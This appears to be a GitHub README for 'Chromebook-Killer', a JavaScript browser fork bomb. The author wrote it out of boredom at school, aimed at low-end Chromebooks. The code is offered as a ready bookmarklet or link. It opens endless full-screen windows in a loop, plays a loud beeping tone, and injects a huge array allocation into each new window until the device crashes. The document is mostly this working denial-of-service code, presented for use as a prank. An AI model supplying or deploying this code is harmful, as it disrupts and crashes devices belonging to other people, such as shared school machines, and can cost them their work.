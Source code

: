 # 🔥 Chromebook-Killer
*"I was bored in school. Nothing new there."*

The code below is a a modified forkbomb that works in HTML and JavaScript. Keep in mind that this is targeted towards more cheap, low end Chromebooks, but I havent tested it on more powerful devices.

#### 🚀 Features
* Lags the Chromebook by spamming new browser windows.
* Plays a loud beeping noise until chromebook crashes (scary ;-;).
* On each new window it creates, it adds an array that will crash that new window.
* Can be used as a bookmarklet or clickable link.

#### 💾 Code
```js
for(;;){
  var a=Math.floor(100*Math.random()+1),
  b=window.open("_blank","Lag"+a,`height=${screen.height},width=${screen.width}`);
  au=new AudioContext(); v=au.createOscillator(); u=au.createGain(); v.connect(u); v.frequency.value=130; v.type="square"; u.connect(au.destination); u.gain.value=100*0.01; v.start(au.currentTime); v.stop(au.currentTime+300*0.001);
  b.document.body.innerHTML=`<script>[...Array(2**32-1)]</script>`
}
```
